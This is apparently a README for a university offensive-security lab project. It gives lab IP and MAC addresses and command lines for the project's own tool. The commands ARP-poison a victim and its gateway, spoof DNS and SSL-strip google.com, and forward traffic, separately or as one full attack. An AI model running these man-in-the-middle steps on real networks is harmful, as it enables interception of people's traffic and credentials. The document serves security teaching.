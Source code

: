 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --ipToSpoof "10.0.123.1"`

2. ARP poison the gateway: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.1" --ipToSpoof "10.0.123.5"`

3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

4. SSL Strip the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
5. Forward `sudo python3 main.py --interface "enp0s10" forward --ipVictim "10.0.123.5" --siteToSpoof "google.com"`

# Or Run the full attack at once:
### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
1. `sudo python3 main.py --interface "enp0s10" fullAttack --ipVictim "10.0.123.5" --ipGateway "10.0.123.1" --siteToSpoof "google.com"`